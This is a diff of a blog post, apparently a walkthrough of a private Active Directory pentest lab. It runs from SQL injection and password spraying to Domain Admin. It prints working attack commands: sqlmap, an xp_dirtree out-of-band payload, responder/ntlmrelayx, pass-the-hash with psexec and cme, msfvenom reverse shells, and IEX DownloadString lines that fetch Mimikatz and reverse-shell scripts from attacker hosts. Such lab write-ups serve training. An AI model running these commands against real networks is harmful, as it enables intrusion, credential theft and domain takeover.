

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 492 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
updated site

````diff
--- a/_posts/2018-3-26-lky-labs.md
+++ b/_posts/2018-3-26-lky-labs.md
@@ -3,33 +3,32 @@
 title: Active Dirctory Adventures part 1
 ---
 
-Windows Active Directory is a database of network reasorce objects. That proliferates in modern enterprise network architectures.
-This post is about going from external client to Domain Controller using some fun tools and tricks.
+Windows Active Directory is a database of network reasource objects. That proliferates in modern enterprise network architectures.
 
-There is a firewall in place so we scan some likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)
+A friendly wizard of such systems, lkys37en, has graciously allowed me to test out his lab, which replicates a modern enterprise Active Directory infrastructure supporting a small-medium sized business with a real go-getter of a Systems Admin who has taken steps to harden the system. This post will document the journey from external client to Domain Controller using some fun tools and tricks and filling in the gaps where I can, with some AD talk and explanation.
 
+
+We not even going to waste time with the initial basic nmap scan (`nmap -sV -Sc IP`) because we know there is a firewall in place and that would retun nothing. So we scan the likely ports with the no ping (-Pn) option and add increased speed (-T4) and version detection (-sV)
 
 `nmap -T4 -sV -Pn -p80,443 10.7.12.0/24`
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-nmap.jpg)
 
-We bust the http ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information.
+Alright we have some open http and https ports on 10.7.12.11-12. We bust the ports for available directories and find on on 10.7.12.12/mvc, a sales site and uses a backend database to manage its merchandise information. We also find 10.7.12.11/rdweb, which is Microsoft's Remote Desktop Web access portal. This is real interesting, but we have no info to log in so we put that on the back burner. We browse the sales site and `ProductSubCategoryId=18` makes us suspicious of a possible SQLi vulnerability.
+
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-site.jpg)
 
 
-The url shows an aspx script that makes a call to the databse to retrieve product information.
-We capture the request with Burp Suite and probe this injection point with sqlmap.
+The url shows an aspx script that makes a call to the databse to retrieve product information and it doesn't look like that data is sanitized. We capture the request with Burp Suite and probe this injection point with sqlmap. We can use the "copy to file" function and write the request to product.req and then sick sqlmap on it.
+
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-mvc-web-req.jpg)
-
-We can use the copy to file function and write the request to procuct.req and then sick sqlmap on it.
 
 
 `sqlmap -r product.req --level=5 --risk=3`
 
-This proves successful and we are able to dump the entire database.
-Of interest is a table giving Active Directory users fullnames and their respective groups
+Success! We go ahead and dump the entire database. (Warning this can be bad with very large databases!!). Of interest is a table giving Active Directory users fullnames groups.
 
 ```
 
@@ -42,64 +41,17 @@
 | Vazquez    | Annie       | Finance         |
 | Falcon     | Paul        | Finance         |
 | Anthony    | Fae         | Finance         |
-| Dillard    | Walter      | Finance         |
-| Bradford   | Louis       | Finance         |
-| Gage       | Sonya       | Finance         |
-| Sanchez    | Alba        | Finance         |
-| Branch     | Daniel      | Finance         |
-| Cruz       | Christopher | Finance         |
-| Johnson    | Nicole      | Finance         |
-| Holliday   | Mary        | Human Resources |
-| Shoemaker  | Michael     | Human Resources |
-| Slater     | Arlene      | Human Resources |
-| Prentiss   | Kelsey      | Human Resources |
-| Davis      | Ginger      | Human Resources |
-| McDaniel   | Johnny      | Human Resources |
-| Jones      | James       | Human Resources |
-| Garcia     | Thomas      | Human Resources |
-| Harrison   | Melissa     | Human Resources |
-| Hight      | Nicholas    | Human Resources |
-| Baird      | William     | Marketing       |
-| Ochoa      | Michelle    | Marketing       |
-| Hopkins    | Joshua      | Marketing       |
-| Blea       | Howard      | Marketing       |
-| Pennington | Clara       | Marketing       |
-| Glen       | David       | Marketing       |
-| Hartsfield | Kim         | Marketing       |
-| Ramirez    | Rita        | Marketing       |
-| Hafner     | Opal        | Marketing       |
-| Matthews   | Louie       | Marketing       |
-| Okeefe     | Lee         | Sales           |
-| Burrows    | Roger       | Sales           |
-| Steele     | Charles     | Sales           |
-| Wallace    | Juan        | Sales           |
-| Lewis      | Donita      | Sales           |
-| Santiago   | Juanita     | Sales           |
-| Shepherd   | Wesley      | Sales           |
-| Brown      | Steven      | Sales           |
+
+           ( ... more names ... )
+
 | Wilson     | Johnny      | Sales           |
 | May        | Juan        | Sales           |
 +------------+-------------+-----------------+
 
 ```
 
-Dirbusting the other open http/s ports we find /rdweb access ie remote dsktop web access.
-If we can derive the correct username given the full names of the AD users we can test weak passwords with the rdweb login.
 
-![](https://braaaax.github.io/braaaax.github.io/images/lky-rdweb-login.jpg)
-
-For this one can use a tool like burp intruder:
-enter "LAB/USERNAME" and "PASSWORD" into the login field and capture with burp/zap proxy:
-
-
-Intruder:
-*  you can use the "cluster bomb" attack
-*  remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
-*  we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
-*  make sure to Always Follow Redirection in the options tab
-
-
-![](https://braaaax.github.io/braaaax.github.io/images/lky-burp-intruder.jpg)
+If we can derive the correct username given the full names of the AD users we can spray the rdweb login. For this one can use a tool like burp intruder. First lets get our lists together. We'll try the first letter of firstname and lastname as a format. And use standard recent Windows default passwords.
 
 
 ```python
@@ -123,19 +75,38 @@
 Spring2018!
 
 
+Intruder:
+*  you can use the "cluster bomb" attack
+*  remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
+*  we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
+*  make sure to Always Follow Redirection in the options tab
+
+
+
+![](https://braaaax.github.io/braaaax.github.io/images/lky-rdweb-login.jpg)
+
+
+![](https://braaaax.github.io/braaaax.github.io/images/lky-burp-intruder.jpg)
+
+
+
 User Credentials Found:
-avazquez:Spring2017!
-mholliday:Summer2017!
-wbaird:Autum2017!
+*  LAB\avazquez:Spring2017!
+*  LAB\mholliday:Summer2017!
+*  LAB\wbaird:Autum2017!
 
-We attempt a login with LAB\avazquez, and success!
+We login with LAB\avazquez.
+
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-valid-login.jpg)
 
+
 We don't want the rdweb and its two applications, we want the full experience. So we log into Annie's account with remmina.
+
 ![](https://braaaax.github.io/braaaax.github.io/images/lkys-remmina.jpg)
 
 
 We can see Windows Defender and Applocker are preventing us from executing most things (Applocker includes AMSI). Pasting the contents of [applocker-bypass-checker.ps1](https://github.com/barryclark/jekyll-now) into notepad and saving as a .ps1 file allows us to sidestepp Defender momentarilly. Running shows us the \windows\Tasks, \windows\tracing\, \windows\system32\spool\drivers\color allow "BUILTIN\USERS" write/createFiles & execute auth.
+
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-Applocker-Bypass.png)
 
@@ -143,10 +114,16 @@
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-powershdll.png)
 
-We use Shellter to trick Applocker further by "rewiring" nc.exe to call to a waiting metasploit listener.
+
+
+We use Shellter to trick Applocker further by "rewiring" nc.exe to call to a waiting metasploit listener. Shellter adds some malicious shell code into a legitimate exe. We add a meterpreter reverse tcp shell to nc.exe. Shellter can take some trial and error. Try and build a stable of exe's that work all or most of the time.
+
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-brax-exe.png)
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-msf-01.png)
+
+
+Once we've gotten our meterpreter shell. We can create a listener with empire and execute it with msf via the load_powershell module. Moving to empire is not necessary though it's nice to be able to do.
 
 Going from msf to empire (via Chryzsh):
 In Empire:
@@ -167,8 +144,11 @@
 *  powershell_shell
 *  paste listener and execute await agent in empire
 
-With empire we can enumerate the system easilly:
 
+
+Either via empire or by importing the PowerView.ps1 module into your msf powershell_shell, we can enumere the domain. Let's take a look at the boxes in the domain.
+
+```
 ComputerName
 ------------
 DC01
@@ -179,40 +159,45 @@
 WS05
 RDS02
 SQL01
+```
 
 
-Discover a helpful VPN to facilitate internal access to the interior subnet to avoid lots of proxies. Alternative methods would be to use Inveigh.
+Using Invoke-Sharefinder we discover a VPN to facilitate internal access to the interior subnet to avoid lots of proxies. From an interior IP We can use responder and ntlnrelayx to dump hashes and get sessions for users without knowing the password. Somthing like `Invoke-Inveigh` could be used externally, but I have had limited success.
 
-`//FS01.lab.local/GroupData/LabUserVPN.ovpn`
+
+![](https://braaaax.github.io/braaaax.github.io/images/lky-invoke-sharefinder.png)
 
 
 
-Out of band SQLi
+After some enumeration we find: `//FS01.lab.local/GroupData/LabUserVPN.ovpn`
+
+
+We fire up responder, but we don't get any hashes. Responder needs a user to initiate a request. On a typical network there are browser and smb share request flying around all the time, but it looks like we will have to get creative.
+
 We have an injection point from step one. To prompt the hash of the owner of the sql db to be sent to responder we need to instigat a DNS query to our IP. We are requesting data be sent via HTML, SMB, or DNS. With MSSQL we use `master..xp_dirtree` (MySQL: LOAD_FILE()). Supplying a hostname to these functions will cause a DNS lookup to occur. We're not interested in successful transmission of the information but the target user with send their netNTLMv2 hash along with their request to our machine. [Futher Reading] (https://www.gracefulsecurity.com/sql-injection-out-of-band-exploitation/)
 
+Our uri payload will be: `/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\\10.8.254.14\test1'; exec master.dbo.xp_dirtree @q`
+
+
+![](https://braaaax.github.io/braaaax.github.io/images/lky-out-of-band-sqli-req.png)
+
+
+![](https://braaaax.github.io/braaaax.github.io/images/lky-responder.png)
+
+
+We run `./ntlmrelayx.py -tf targets.txt` along side responder and get the sam hashes we're after:
 
 ```
-/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\\10.8.254.14\test1'; exec master.dbo.xp_dirtree @q
-
-/mvc/Product.aspx?ProductSubCategoryId=18;declare%20@q%20varchar(99);set%20@q=%27\\10.8.254.14\test1%27;%20exec%20master.dbo.xp_dirtree%20@q
-
+Administrator:500:aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e:::
+Guest:501:aad3b435b51404eeaad3b435b51404ee:06a380cfedba265a9bcf51f2cffa40fa:::
 ```
 
+Next we want to put those hashes to use and get a shell as Administrator
 
-We can use responder and ntlnrelayx to dump hashes
-
-`./Responder.py -I tun1 -wrf`
-  -disable http/s and smb
-
-`./ntlmrelayx.py -tf ~/lkys37en-lab/labnotes/targets.txt`
-
-
-`./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e administrator@10.8.14.14`
+```./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e administrator@10.8.14.14
 
 Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies
 
-
-```
 
 [*] Requesting shares on 10.8.14.14.....
 [*] Found writable share ADMIN$
@@ -227,10 +212,10 @@
 C:\Windows\system32>whoami
 nt authority\system
 
+
 ```
 
-System on sql01 then use token impersonation to get to bdavis
-
+Success as system on sql01 let's create a rat with msfvenom (`msfvenom -p windows/shell/reverse_tcp lhost=10.8.254.10 lport=4444 -f exe -o callbrax.exe`) and get a meterpreter shell. Meterpreter and incognito make it trivial to use token impersonation to spawn a shell as a user. We see BDavis is a user on the box, he's our target.
 
 
 GPO Enumeration:
@@ -244,35 +229,35 @@
 
 
 
-Add "Server Admins" to the below file
+Add "Server Admins" to the below file to give BDavis Administrator status on MX01.
 
 `type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`
 
 `Invoke-GpUpdate -Computer MX01 -Force`
 
 
+Since BDavis is no admin on MX01 we can run Mimikatz on the Box and discover the credentials of BRoss who is Domain Admin.
 
-Since BDavis is a user on MX01 we can move laterally via Invoke-Command or just run Mimikatz on the Box.
+Add `Invoke-Mimikatz` to the bottom of my copy of Invoke-Mimikatz.ps1 I serve the file with python's SimpleHTTPServer and execute it from memory on MX01:
 
-`Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).DownloadString('http://10.8.254.10/Invoke-PowerShellTcpOneLine.ps1')}`
-
-`Invoke-Command -ComputerName MX01 -ScriptBlock {.\Invoke-Mimikatz.ps1)}`
-
+`Invoke-Command -ComputerName MX01 -ScriptBlock {IEX (New-Object Net.WebClient).DownloadString('http://10.8.254.10/Invoke-Invoke-Mimikatz.ps1')}`
 
 
 We get NTLM hashes for BRoss, who is a Domain Admin. With this info we are able to use the Ross account to add us to net users and Domain Admins
-We use cme to expoit the hashes and get a shell.
+We use cme to expoit the hashes and get a shell. We use the same methodology:
 
+`cme smb 10.8.14.10 -u BRoss -H '49a074a39dd0651f647e765c2cc794c7' -X 'IEX (New-Object Net.WebClient).DownloadString("http://10.7.253.6/Invoke-PowerShellTcpOneLine.ps1")'`
 
 ![](https://braaaax.github.io/braaaax.github.io/images/lky-cme-screenshot.png)
 
 
+Lastly, As BRoss I add myself to all the good places:
+
+```
+net user brax password /add /domain
+net group "Domain Admins" /add brax /domain
+net group "Remote Desktop Users" /add lab\brax /domain
+```
 
 
-Adding myself to all the good places:
-
-`net user brax password /add /domain`
-
-`net group "Domain Admins" /add brax /domain`
-
-`net group "Remote Desktop Users" /add lab\brax /domain`
+Now on to the second Domain,  lky.local  in part 2.
````
Also changed, not shown: images/lky-burp-out-of-band-sqli.png (added), images/lky-invoke-sharefinder.png (added), images/lky-out-of-band-sqli-req.png (added), images/lky-responder.png (added).
